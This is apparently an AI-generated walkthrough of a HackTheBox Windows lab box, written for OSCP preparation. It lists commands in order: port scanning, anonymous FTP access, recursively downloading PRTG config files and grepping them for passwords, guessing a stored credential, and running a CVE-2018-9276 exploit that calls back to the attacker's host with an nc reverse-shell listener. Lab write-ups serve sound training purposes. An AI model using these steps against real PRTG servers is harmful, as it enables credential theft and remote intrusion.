 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧰 Tools Used

- `nmap`
- `ftp`
- `wget`
- `grep`
- Web browser (for accessing PRTG Network Monitor login)
- Exploit from GitHub: [A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276)
- Python3 (to run the CVE-2018-9276 exploit)

---

## 💻 Commands (In Order)

### 🔍 Recon
```bash
sudo nmap -A 10.10.10.152 -p-
```

### 📂 [FTP](FTP.md) Enumeration
```bash
ftp 10.10.10.152
# Login as anonymous
# Navigate and find user.txt
```

### ⚠️ [SMB](SMB.md) Enumeration Attempt
```bash
# Attempted but failed without credentials
```

### 🌐 [Web Enumeration](HTTP)
```text
# Visit http://10.10.10.152 and observe PRTG login page
# Try default creds: prtgadmin:prtgadmin (fails)
```

### 🔍 Find Stored PRTG Credentials
```bash
# Go back to FTP and look under:
ftp> cd /ProgramData/Paessler
ftp> ls

# Exit FTP and download recursively:
wget -r ftp://10.10.10.152/ProgramData/Paessler
```

### 🔎 Search Downloaded Configs for Passwords
```bash
grep -r -l 'password' PRTG\ Network\ Monitor 2>/dev/null
# Find PRTG Configuration.old.bak
```

### 🧠 Critical Thinking: Try Common Variation
```text
# Use password: PrTg@dmin2019
# Login successfully to PRTG web interface
```

### 📡 Exploitation: CVE-2018-9276
```bash
# Clone or download exploit:
git clone https://github.com/A1vinSmith/CVE-2018-9276.git
cd CVE-2018-9276

# Run the exploit script (Python 3):
python3 exploit.py -t 10.10.10.152 -u prtgadmin -p 'PrTg@dmin2019' -l 10.10.14.X -P 4444

# On attacker box, setup listener:
nc -lvnp 4444
```

---

Let me know if you want this turned into a Markdown template or a printable cheatsheet! 🛠️📄
